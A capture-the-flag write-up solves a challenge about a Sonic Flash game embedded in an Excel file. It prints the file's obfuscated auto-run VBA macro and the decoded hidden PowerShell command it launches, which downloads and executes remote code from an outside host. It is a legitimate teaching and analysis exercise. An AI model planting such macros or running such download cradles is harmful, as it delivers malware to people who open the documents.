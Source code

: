 ## Description :
```
Ms.GG found the Sonic game in Flash embeded in the Excel files. There might be some clues if the game was cleared.

File: http://192.168.1.222:12812/41b76df12dc7b13316176eed2608a8cf/Sonic.zip

Flag format: KPMG{xxxxxxxxxx}
```

## File :
[Sonic.zip](Sonic.zip)


## Solution :

Opening up the sonic.xls we get the sonic flash game with warning of macro, enable it will popup `Go play game !!` as below for 10 times:

![flash](https://github.com/alejndalliance/KPMG-Cyber-Security-Challenge-2017/blob/master/ACT%204/sonic/flashgame.PNG?raw=true)

Lets take a look on the macro itself

```VB
Sub Auto_Open()
   Dim counter, myNum
   counter = 0
   myNum = 10
   Do While myNum > 8
     myNum = myNum - 1
     counter = counter + 1
     MsgBox "Go play game !!"
   Loop
    Dim first As String
    Dim second As String
    Dim third As String
    Dim fourth As String
    Dim fifth As String
    Dim sixth As String
    Dim seventh As String
    Dim eighth As String
    Dim ninth As String
    Dim tenth As String
    Dim eleventh As String
    Dim twelfth As String
    Dim thirteen As String
    Dim last As String
    first = ChrW(112) & ChrW(111) & ChrW(119) & ChrW(101) & ChrW(114) & ChrW(115) & ChrW(104) & ChrW(101) & ChrW(108) & ChrW(108)
    second = ChrW(46) & ChrW(101) & ChrW(120) & ChrW(101) & ChrW(32) & ChrW(45) & ChrW(110) & ChrW(111) & ChrW(112) & ChrW(32)
    third = ChrW(45) & ChrW(119) & ChrW(32) & ChrW(104) & ChrW(105) & ChrW(100) & ChrW(100) & ChrW(101) & ChrW(110) & ChrW(32)
    fourth = ChrW(45) & ChrW(99) & ChrW(32) & ChrW(36) & ChrW(74) & ChrW(61) & ChrW(110) & ChrW(101) & ChrW(119) & ChrW(45)
    fifth = ChrW(111) & ChrW(98) & ChrW(106) & ChrW(101) & ChrW(99) & ChrW(116) & ChrW(32) & ChrW(110) & ChrW(101) & ChrW(116)
    sixth = ChrW(46) & ChrW(119) & ChrW(101) & ChrW(98) & ChrW(99) & ChrW(108) & ChrW(105) & ChrW(101) & ChrW(110) & ChrW(116)
    seventh = ChrW(59) & ChrW(36) & ChrW(74) & ChrW(46) & ChrW(112) & ChrW(114) & ChrW(111) & ChrW(120) & ChrW(121) & ChrW(61)
    eighth = ChrW(91) & ChrW(78) & ChrW(101) & ChrW(116) & ChrW(46) & ChrW(87) & ChrW(101) & ChrW(98) & ChrW(82) & ChrW(101)
    ninth = ChrW(113) & ChrW(117) & ChrW(101) & ChrW(115) & ChrW(116) & ChrW(93) & ChrW(58) & ChrW(58) & ChrW(71) & ChrW(101)
    tenth = ChrW(116) & ChrW(83) & ChrW(121) & ChrW(115) & ChrW(116) & ChrW(101) & ChrW(109) & ChrW(87) & ChrW(101) & ChrW(98)
    eleventh = ChrW(80) & ChrW(114) & ChrW(111) & ChrW(120) & ChrW(121) & ChrW(40) & ChrW(41) & ChrW(59) & ChrW(36) & ChrW(74)
    twelfth = ChrW(46) & ChrW(80) & ChrW(114) & ChrW(111) & ChrW(120) & ChrW(121) & ChrW(46) & ChrW(67) & ChrW(114) & ChrW(101) & ChrW(100) & ChrW(101) & ChrW(110) & ChrW(116) & ChrW(105) & ChrW(97) & ChrW(108) & ChrW(115) & ChrW(61) & ChrW(91) & ChrW(78) & ChrW(101) & ChrW(116) & ChrW(46) & ChrW(67) & ChrW(114) & ChrW(101) & ChrW(100) & ChrW(101) & ChrW(110) & ChrW(116) & ChrW(105) & ChrW(97) & ChrW(108) & ChrW(67) & ChrW(97) & ChrW(99) & ChrW(104) & ChrW(101) & ChrW(93) & ChrW(58) & ChrW(58) & ChrW(68) & ChrW(101) & ChrW(102) & ChrW(97) & ChrW(117) & ChrW(108) & ChrW(116) & ChrW(67) & ChrW(114) & ChrW(101) & ChrW(100) & ChrW(101) & ChrW(110) & ChrW(116) & ChrW(105) & ChrW(97) & ChrW(108) & ChrW(115) & ChrW(59) & ChrW(73) & ChrW(69) & ChrW(88) & ChrW(32) & ChrW(36) & ChrW(74) & ChrW(46) & ChrW(100) & ChrW(111) & ChrW(119) & ChrW(110) & ChrW(108) & ChrW(111) & ChrW(97) & ChrW(100) & ChrW(115) & ChrW(116) & ChrW(114) & ChrW(105) & ChrW(110) & ChrW(103) & ChrW(40) & ChrW(39) & ChrW(104) & ChrW(116) & ChrW(116)
    thirteen = ChrW(112) & ChrW(115) & ChrW(58) & ChrW(47) & ChrW(47) & ChrW(101) & ChrW(45) & ChrW(115) & ChrW(111) & ChrW(99) & ChrW(105) & ChrW(101) & ChrW(116) & ChrW(121) & ChrW(46) & ChrW(98) & ChrW(99) & ChrW(107) & ChrW(103) & ChrW(114) & ChrW(112) & ChrW(46) & ChrW(115) & ChrW(51) & ChrW(46) & ChrW(97) & ChrW(109) & ChrW(97) & ChrW(122) & ChrW(111) & ChrW(110) & ChrW(97) & ChrW(119) & ChrW(115) & ChrW(46) & ChrW(99) & ChrW(111) & ChrW(109) & ChrW(58) & ChrW(56) & ChrW(52) & ChrW(52) & ChrW(51) & ChrW(47) & ChrW(75) & ChrW(80) & ChrW(77) & ChrW(71) & ChrW(123) & ChrW(83) & ChrW(48) & ChrW(110) & ChrW(49) & ChrW(99) & ChrW(95) & ChrW(68) & ChrW(51) & ChrW(108) & ChrW(33) & ChrW(118) & ChrW(51) & ChrW(114) & ChrW(121) & ChrW(95) & ChrW(80) & ChrW(36) & ChrW(72) & ChrW(125) & ChrW(39) & ChrW(41) & ChrW(59)
    last = first + second + third + fourth + fifth + sixth + seventh + eighth + ninth + tenth + eleventh + twelfth + thirteen
    Shell (last)
End Sub
Sub AutoOpen()
    Auto_Open
End Sub
Sub Workbook_Open()
    Auto_Open
End Sub
```

Add MsgBox to the `last` parameter to popup the flag

![macro](https://raw.githubusercontent.com/alejndalliance/KPMG-Cyber-Security-Challenge-2017/master/ACT%204/sonic/macro.PNG)

you will get powershell command to download file

![flag](https://raw.githubusercontent.com/alejndalliance/KPMG-Cyber-Security-Challenge-2017/master/ACT%204/sonic/flag.PNG)
```powershell
powershell.exe -nop -w hidden -c $J=new-object net.webclient;$J.proxy=[Net.WebRequest]::GetSystemWebProxy();$J.Proxy.Credentials=[Net.CredentialCache]::DefaultCredentials;IEX $J.downloadstring('https://e-society.bckgrp.s3.amazonaws.com:8443/KPMG{S0n1c_D3l!v3ry_P$H}');
```
Flag: `KPMG{S0n1c_D3l!v3ry_P$H}`
